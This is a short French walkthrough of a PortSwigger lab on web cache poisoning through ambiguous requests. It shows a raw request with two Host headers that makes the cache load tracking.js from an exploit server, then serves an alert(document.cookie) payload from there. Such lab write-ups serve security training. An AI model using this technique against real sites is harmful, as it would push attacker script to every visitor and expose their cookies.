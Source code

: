 # Lab

https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests

## Solution

Sur la page d'accueil, on voit qu'il y a une balise `script` qui charge un fichier `/resources/js/tracking.js` depuis le domaine actif.

On peut donc essayer de modifier le header `Host` pour modifier le domaine de la source du fichier `tracking.js` si l'implémentaion du serveur est vulnérable à une attaque.

Malheureusement il ya une sécrutité qui empêche la modification du header `Host`.

On peut essayer de créer une requête ambiguë en ajoutant un header `Host` dans la requête en plus de celui qui est déjà présent.

```
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

On voit que le cache du serveur a été empoisonné et que le fichier `tracking.js` est chargé depuis notre serveur.

Maintenant on peut créervia l'exploit server un fichier `tracking.js` qui contient le code suivant:

```js
alert(document.cookie);
```

Ce qui nous permet de valider le lab.